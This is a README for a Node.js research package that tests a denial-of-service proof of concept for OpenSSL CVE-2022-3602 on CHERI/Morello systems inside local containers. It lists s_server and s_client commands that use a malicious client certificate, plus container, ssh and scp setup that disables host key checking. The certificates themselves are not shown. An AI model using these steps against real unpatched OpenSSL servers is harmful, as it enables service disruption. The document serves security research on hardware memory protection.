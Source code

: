 # OpenSSL Vulnerability PoC

Node.JS functions for testing a Denial-of-Service (DoS) attack on OpenSSL
exploiting [CVE-2022-3602](https://nvd.nist.gov/vuln/detail/CVE-2022-3602).

These functions are adapted from the
[malicious client scenario in DataDog/security-labs-pocs@d25e1ac][1]

[1]: https://github.com/DataDog/security-labs-pocs/tree/d25e1ac3a240489cda949114c732793685a1fae6/proof-of-concept-exploits/openssl-punycode-vulnerability/malicious_client

## Usage

These are currently only mocked functions, so the API may change in the future.

```javascript
import {
  MorelloPurecapOpenSSLTestCase,
  MorelloHybridOpenSSLTestCase,
} from "@nqminds/openssl-vuln-poc";

import {DockerServer} from "@nqminds/openssl-vuln-poc/src/docker.mjs";

// These are the credentials of a local morello server running
// in a docker container
const sshOptions = {
  username: "root",
  host: "127.0.0.2",
  port: 2224,
};

const dockerServer = new DockerServer({
  port: sshOptions.port,
});
// ~will take hours to download on the first time~
// Use `podman pull docker.io/aloisklink/cheribuild-edgesec:morello-purecap-20220511`
// to view progress.
// next times should take a few minutes to startup
await dockerServer.setup({quiet = false});

// or use MorelloHybridOpenSSLTestCase
const testCase = new MorelloPurecapOpenSSLTestCase({
  sshOpts: sshOptions,
});

// installs vulnerable OpenSSL versions, and caches
// `ssh` connection for 60 minutes for faster tests
await testCase.setup();

// run your tests as many times as you want
// (MorelloHybridcapOpenSSLTestCase can use the same connection)
const res = await testCase.run();
console.log(`Server output error logs were: ${res.server.stderr}`);

await dockerServer.stop();
```

## Bash scripts to implement in JavaScript

### Server

```bash
openssl s_server -accept 31050 -CAfile certs/cacert.pem -cert certs/server.cert.pem -key certs/server.key.pem  -state -verify 1
```

Results:

- Safe: Server stays active.
- Vulnerable (CHERI Hybrid): malicious payload runs and calls `Abort()`
  - Exit code: 0x86 (`SIGTRAP`)
- Vulnerable (CHERI Purecap): malicious payload is caught by CPU and is killed with `In-address space security exception (core dumped)`
  - Exit code: 0xA2 (`SIGPROT`)

## Client

```bash
openssl s_client -connect 127.0.0.1:31050 -key certs/client.key.pem  -cert certs/client.cert.pem -CAfile certs/malicious-client-cacert.pem -state
```

## Running docker commands manually

The following commands should be run automatically by the Node.JS code:

```bash
podman run -it --user root --rm --publish 127.0.0.2:2222:2222/tcp docker.io/aloisklink/cheribuild-edgesec:morello-purecap-20220511 bash -c $'
#!/usr/bin/env bash

set +e # exit on error

su --command \'mkdir /home/ubuntu/.ssh && printf "%s" "$1" > /home/ubuntu/.ssh/cheribsd-ssh-key.pub\' -- ubuntu "n/a" "$1"

# pipes everything on port 2222 to `localhost:2223`
# This is so that we can access the SSH server from outside the docker container
apt-get update && apt-get install socat --yes
socat tcp-listen:2222,reuseaddr,fork tcp:localhost:2223 &

su --command \'cd /home/ubuntu/cheribuild && ./cheribuild.py --run/ephemeral --run/ssh-forwarding-port 2223 disk-image-morello-purecap run-morello-purecap --skip-update\' -- ubuntu

# wait for socat to finish running
wait
' "arg0 (unused)" "$(cat ~/.ssh/id_ed25519.pub)"
```

Wait the ~2/3 minutes the above command will take until you get into a CHERIBSD shell.
Then you can run `pkg64c install --yes openssl-devel-3.0.2` and `pkg64 install --yes openssl-devel-3.0.2`.

Finally, you can run the following `scp` command to copy over the malicious OpenSSL certificates:

```bash
scp -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no -r ./certs scp://root@127.0.0.2:2222/
```

### Server

#### Hybrid

(For `purecap`, use `/usr/local/bin/openssl`)

```bash
ssh -o RequestTTY=force -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no ssh://root@127.0.0.2:2222 sh -c '"/usr/local64/bin/openssl s_server -accept 31050 -CAfile certs/cacert.pem -cert certs/server.cert.pem -naccept 1 -key certs/server.key.pem -state -verify 1; exit $?"'
```

### Client

```bash
printf 'Hello World from my OpenSSL Client!\nQ\n' | ssh -o RequestTTY=force -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no ssh://root@127.0.0.2:2222 sh -c '"openssl s_client -connect 127.0.0.1:31050 -key certs/client.key.pem -cert certs/client.cert.pem -CAfile certs/malicious-client-cacert.pem -state; exit $?"'
```
